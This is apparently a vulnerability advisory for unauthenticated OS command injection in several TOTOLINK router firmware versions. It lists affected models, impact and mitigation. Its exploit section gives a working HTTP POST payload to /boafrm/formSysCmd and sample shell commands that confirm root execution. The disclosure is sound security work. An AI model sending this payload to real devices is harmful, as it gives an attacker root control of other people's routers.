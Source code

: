 # TOTOLINK using Boa API vulnerabilities
## Overview
Some TOTOLINK products using Boa API function are vulnerable to OS Command Injection.
## Products Affected
- TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512
- TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002
- TOTOLINK-CX-N300RT-V2.1.6-B20170724.1420
- TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408
- TOTOLINK-CX-N300RT-V2.1.8-B20191010.1107
- TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523

## Description
- A OS command injection vulnerability was found within the web interface of the device([CWE-78](https://cwe.mitre.org/data/definitions/78.html)).
## Impact
- An attacker may inject arbitrary shell commands without credentials, and it be executed by the device with root privileges.
## Solution
- If the products is not supported, please stop using the products and switch to alternative products.
## Mitigation 
- Disable internet access. 

## Explot PoC
- Uses external server`{Listen IP}:{Listen Port}` to see invisible code execution response

**Payload**
```http!
POST /boafrm/formSysCmd HTTP/1.1
Host: {Target IP}:{Target Port}
User-Agent: curl/7.81.0
Accept: */*
Content-Length: <length>
Content-Type: application/x-www-form-urlencoded

sysCmd={shell_cmd}
```

**Check product version**
- shell cmd: `cat /etc/version`
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**Check gained root permission**
- shell cmd: `echo $USER`
![image](https://hackmd.io/_uploads/Syt0BhFFA.png)

## Affected products
**TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512**
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002**
![image](https://hackmd.io/_uploads/r1ZV1pYYA.png)

**TOTOLINK-CX-N300RT-V2.1.6-B20170724.1420**
![image](https://hackmd.io/_uploads/rkLFcBy9A.png)

**TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408**
![image](https://hackmd.io/_uploads/BJe4w1aYY0.png)

**TOTOLINK-CX-N300RT-V2.1.8-B20191010.1107**
![image](https://hackmd.io/_uploads/rkY3qHk5C.png)

**TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523**
![image](https://hackmd.io/_uploads/H1hqk6FtC.png)

## Reference
- https://www.totolink.tw/products_view/N302RE
- https://www.totolink.tw/products_view/N300RT
- https://totolink.tw/support_view/A3002RU
- https://totolink.tw/support_view/N150RT
